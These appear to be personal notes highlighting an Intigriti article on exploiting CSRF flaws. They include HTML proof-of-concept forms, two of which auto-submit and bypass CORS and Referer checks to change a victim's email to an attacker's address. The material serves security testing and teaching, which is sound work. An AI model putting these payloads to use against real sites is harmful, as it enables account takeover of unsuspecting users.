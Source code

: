 ```yaml
---
author: novasecio
aliases:
  - "CSRF: A Complete Guide to Exploiting Advanced CSRF Vulnerabilities"
tags:
  - readwise/articles
url: https://blog.intigriti.com/hacking-tools/csrf-a-complete-guide-to-exploiting-advanced-csrf-vulnerabilities?__readwiseLocation=
date: 2025-04-24
summary: CSRF (Cross-Site Request Forgery) vulnerabilities occur when attackers trick a victim's browser into performing unauthorized actions on their behalf. The article explains how to identify and exploit these vulnerabilities, covering both basic and advanced methods. It emphasizes the importance of browser security measures and provides examples of exploitation techniques, encouraging readers to practice their skills.
---
```

# CSRF: A Complete Guide to Exploiting Advanced CSRF Vulnerabilities

## Basic CSRF PoC

[Cross-Site Request Forgery (CSRF)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-Site%20Request%20Forgery%20(CSRF).md) in the most basic form can be exploited by crafting the following proof of concept: [](https://read.readwise.io/read/01j6kq8rdaxpdmjz0mm59v60s8)
```html
<!DOCTYPE html>
<html>
<body>
<h1>CSRF Proof of Concept</h1>
<form method="POST" action="https://app.example.com/api/profile/update">
<input type="hidden" name="new_email" value="user@example.com">
<input type="submit" value="Submit Request">
</form>
</body>
</html> 
```

## Bypass CORS sending text/plain content-type

Some content types, like JSON, trigger another browser security measure ([Cross-origin resource sharing (CORS)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-origin%20resource%20sharing%20(CORS).md)) and will make our CSRF attempt futile.

To bypass this case, we can check if the API server is **capable of handling other content types** such as form data. Oftentimes, this is the case as the underlying code or external package is still configured and capable of parsing other content types. [](https://read.readwise.io/read/01j6kqad1d78gaggf86pe5sbpp)

You may also come across an API that only accepts data as JSON. Even in that case, it is possible to send data in JSON without triggering CORS by enforcing the `text/plain` content type! [](https://read.readwise.io/read/01j6kqc88avcrjwh5sfn8vays0)

```html
<!DOCTYPE html> <html> <body> <form action="https://app.example.com/api/profile/update" method="POST" enctype="text/plain"> <input type="hidden" name='{"test":"x' value='y","new_email":"attacker@example.com"}'/> <input type="submit" value="Submit request"/> </form> <script>history.pushState('','','/');document.forms[0].submit();</script> </body> </html> 
```

## Bypass CSRF protection sending Requests without Referer

Another case you should test for is when no referer header is sent with the request and when there is no fallback set. Developers think that it is not possible to send a request through a browser without a referer header. We can however craft a proof of concept that'd do just that, send a request without a referer header and bypass this anti-CSRF case: [](https://read.readwise.io/read/01j6kqkwmphqgvvyx7cb27c5r0)
```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<!-- Prevent referer header from being sent -->
<meta name="referrer" content="no-referrer">
</head>
<body>
<form action="https://app.example.com/api/profile/update" method="POST">
<input type="hidden" name="new_email" value="attacker@example.com"/>
<input type="submit" value="Submit request"/>
</form>
<script>history.pushState('','','/');document.forms[0].submit();</script>
</body>
</html>
```

## CSRF PoC Creator

CSRF PoC Creator is a [Burpsuite](../../Dev,%20ICT%20&%20Cybersec/Tools/Burpsuite.md) extension that can help you generate proof of concepts from raw HTTP requests in Burpsuite. It is available for both the Community as well as the Professional edition of Burpsuite.

[https://github.com/rammarj/csrf-poc-creator](https://github.com/rammarj/csrf-poc-creator) [](https://read.readwise.io/read/01j6kqmsxg9phvn9qz7n6v9dkt)

